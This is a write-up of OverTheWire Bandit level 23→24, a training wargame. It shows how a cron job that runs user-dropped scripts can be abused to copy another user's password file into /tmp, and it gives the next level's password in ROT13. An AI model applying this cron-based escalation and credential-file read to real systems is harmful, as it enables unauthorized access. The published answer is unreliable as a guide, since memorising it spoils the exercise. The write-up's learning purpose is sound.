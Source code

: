 # Write-up: Bandit 23 → 24
**Date:** 2025-08-15

## Obfuscated password (ROT13) 
`to8XEEPffuhMKV0gHhE6lcBSwvMos3T8`

## OBJECTIVE
> "A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
>
> NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
>
> NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…"

## PURPOSE

We need to go back once more to `/etc/cron.d` and `cat` **`cronjob_bandit24`** to find the script `/usr/bin/cronjob_bandit24.sh`, which contains the following:

```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

We can deduce that the script will execute and then delete all scripts **owned by bandit23** in `/var/spool/bandit24/foo`. Here is where we can create our script, then. To confirm, we can run `ls -l /var/spool/bandit24`:
```
drwxrwx-wx 8 root bandit24 4096 Aug 15 23:21 foo
```
As we are in the *others* class, we have **write** and **execute** permissions on `foo`, but no **read** permission. All we need to do then is write a script that will copy the next password to a location we *can* read, namely a `/tmp` file, and it will be **executed** by the cron job.

`cat > /var/spool/bandit24/foo/mydrop` will bring us into interactive mode where we can write our script, then press **Ctrl+D** to save:
```
#!/bin/bash
/bin/cat /etc/bandit_pass/bandit24 > /tmp/mybandit24pass
```
Now make the script executable (required so cron can run it):
```
chmod 755 /var/spool/bandit24/foo/mydrop
```
After about a minute (cron runs every minute), read the password:
```
cat /tmp/mybandit24pass
```

## SOLUTIONS
- `cat /etc/cron.d/cronjob_bandit24`
- `cat /usr/bin/cronjob_bandit24.sh`
- `cat > /var/spool/bandit24/foo/mydrop` *(paste the two lines above, then Ctrl+D)*
- `chmod 755 /var/spool/bandit24/foo/mydrop`
- `cat /tmp/mybandit24pass`

---

Writeup author: **Jeremy Ray Jewell**  
[GitHub](https://github.com/jeremyrayjewell) • [LinkedIn](https://www.linkedin.com/in/jeremyrayjewell)
